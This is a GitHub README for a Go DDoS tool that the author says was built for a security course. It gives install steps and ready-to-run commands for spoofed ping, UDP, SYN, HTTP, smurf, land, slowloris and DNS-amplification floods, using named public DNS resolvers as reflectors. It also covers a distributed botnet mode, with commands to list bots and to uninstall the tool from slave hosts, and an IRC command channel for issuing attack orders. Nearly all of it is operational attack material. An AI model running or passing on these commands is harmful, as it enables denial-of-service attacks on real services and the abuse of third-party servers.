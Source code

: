 # Cyclone Jet Rocket

Cyclone Jet Rocket is a DDoS tool for System Security Technology course.

This DDoS tool provides more than 8 kinds of attack methods, each in one module, with different parameters each module. The abstraction of Layers is inspired from [gopacket](https://github.com/google/gopacket), but reimplemented by myself.

## Install

```
go get github.com/crazyboycjr/cyclone-jet-rocket
go build -o $GOPATH/bin/cjr github.com/crazyboycjr/cyclone-jet-rocket
sudo setcap cap_net_raw+ep $GOPATH/bin/cjr
```

## Usage

stand-alone mode
```
cjr --help
cjr --list-module
cjr --module ping-flood help
cjr -m ping-flood --spoof 192.168.1.0/24 --destination 192.168.1.3 --rate 100/ms -c 100000 --size 1472
cjr -m udp-flood -s 192.168.0.0/16 -d 192.168.1.3 -p 80 -p 22 -p 8000:9000 -r nolimit --size 1200
cjr -m smurf --broadcast 192.168.1.255 -d 192.168.1.3 -c 1000 --size 1000
cjr -m syn-flood -s 192.168.2.0/24 -d 192.168.1.3 -p 80 -r 100/s
cjr -m slowloris --url http://www.example.com --request GET -c 100 -r 1/s --timeout 10
cjr -m slowloris -u http://www.example.com -X POST -c 100 -r 10/s --t 20
cjr -m rdns --target 192.168.1.3 --dns 202.120.224.6:53 --dns 61.129.42.6:53 --dns 114.114.114.114:53 -c 1000 -r 10/s
cjr -m rdns --target 192.168.1.3 -f dns_servers.txt -c 1000 -r 10/s
cjr -m land -d 192.168.1.3 -p 80 -r 10/s
cjr -m http-flood -u http://www.example.com -X POST -c 100 -r 10/s
```

distributed mode
```
cjr --dist help
cjr -D --wait # only slave host use this command to wait for commands
cjr -D --list-bots
cjr -D -m syn-flood -s 10.0.0.0/8 -d 10.123.123.123 -p 80 -r 10/s
cjr -D --stop
cjr -D --uninstall # this command will terminate the process on slave host and remove the executable file
```

For convenience, we can also join the IRC channel to give the order. Something like below
```
irssi
/connect Freenode
/join cjr-random
!list
!module rdns --target 192.168.1.3 --dns 202.120.224.6:53 -c 1000 -r 10/s
!stop
```

## Dependencies

- Go version 1.8 or above
- [go-flags](https://github.com/jessevdk/go-flags)
- [go-ircevent](https://github.com/thoj/go-ircevent)
